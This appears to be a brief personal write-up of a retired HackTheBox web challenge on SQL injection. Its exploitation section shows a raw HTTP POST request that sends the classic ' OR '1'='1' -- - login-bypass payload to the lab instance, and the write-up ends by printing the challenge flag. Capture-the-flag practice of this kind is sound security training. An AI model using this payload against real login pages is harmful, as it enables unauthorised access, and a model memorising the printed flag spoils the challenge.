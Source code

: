 ```yaml
---
Category: Web
Difficulty: Easy
Platform: HackTheBox
Retired: true
Status: 3. Complete
Tags:
  - SQL-Injection
---
```

>[!quote]
> *Can you escape the query context and log in as admin at my super secure login page?*


# Set up

-

# Information Gathering

![Pasted image 20210818171101.png](../../zzz_res/attachments/Pasted_image_20210818171101.png)

# Exploitation

```
POST / HTTP/1.1
Host: 188.166.173.208:30599
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 77
Origin: <http://188.166.173.208:30599>
Connection: close
Referer: <http://188.166.173.208:30599/>
Upgrade-Insecure-Requests: 1

username=%27+OR+%271%27%3D%271%27+--+-&password=%27+OR+%271%27%3D%271%27+--+-
```

![Pasted image 20210818171251.png](../../zzz_res/attachments/Pasted_image_20210818171251.png)

# Flag

>[!success]
>`HTB{SQL_1nj3ct1ng_my_w4y_0utta_h3r3}`